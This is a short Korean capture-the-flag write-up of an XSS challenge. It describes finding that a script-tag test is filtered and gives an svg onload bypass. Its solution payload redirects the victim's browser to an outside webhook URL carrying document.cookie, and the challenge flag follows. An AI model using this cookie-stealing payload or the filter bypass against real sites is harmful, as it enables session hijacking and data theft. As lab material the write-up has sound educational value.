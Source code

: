 # XSS (Cross-site scripting)
사이트에 접속하면 vuln(xss) page와 flag 페이지가 나온다.

vuln(xss) page의 param이 
`<script>alert(1)</script>`으로 되어있는데 alert이 뜨지 않는 걸로 봐서 xss가 필터링 된 문제구나, 라고 생각하고 xss 우회법을 검색하여 `<svg/onload="alert(1)">`라고 적었는데 alert이 나오길래 이 코드를 이용하여 풀었다.

다만 소스를 보니 local에 있는 브라우저 cookie에 flag가 저장된다는 부분이 있었다.

그래서 flag 페이지를 이용해 로컬에서 외부 서버로 cookie 값을 전송해주는 코드를 넣어 solve 하였다.

## Code
```<svg/onload=location["href"]="https://webhook.site/webhook-id/?flag="+document["cookie"]>```

## Flag
flag{alert(/correct!/.source)}